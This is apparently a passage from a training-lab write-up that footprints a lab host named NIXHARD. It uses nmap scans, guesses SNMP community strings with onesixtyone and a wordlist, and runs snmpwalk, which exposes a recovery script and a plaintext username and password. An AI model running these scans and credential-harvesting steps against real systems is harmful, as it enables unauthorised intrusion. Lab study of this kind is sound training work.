 ```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sSVC -p993,995 10.129.202.20 -T5

[SNIP]

PORT    STATE SERVICE  VERSION
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: IMAP4rev1 more AUTH=PLAINA0001 Pre-login listed capabilities LITERAL+ post-login OK have SASL-IR ID LOGIN-REFERRALS IDLE ENABLE
995/tcp open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: SASL(PLAIN) CAPA PIPELINING RESP-CODES AUTH-RESP-CODE TOP USER UIDL
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -sU -p- 10.129.202.20 -T5

[SNIP]

PORT    STATE SERVICE
161/udp open  snmp
```

#### SNMP Footprinting

```
┌──(nabla㉿kali)-[~]
└─$ onesixtyone -c /opt/useful/seclists/Discovery/SNMP/snmp.txt 10.129.202.20

10.129.202.20 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```

```
┌──(nabla㉿kali)-[~]
└─$ snmpwalk -v2c -c backup 10.129.202.20 | tee snmpwalk.output

[SNIP]

iso.3.6.1.2.1.1.4.0 = STRING: "Admin <tech@inlanefreight.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "NIXHARD"
iso.3.6.1.2.1.1.6.0 = STRING: "Inlanefreight"

[SNIP]

iso.3.6.1.2.1.25.1.7.1.2.1.2.6.66.65.67.75.85.80 = STRING: "/opt/tom-recovery.sh"
iso.3.6.1.2.1.25.1.7.1.2.1.3.6.66.65.67.75.85.80 = STRING: "tom NMds732Js2761"

[SNIP]
```
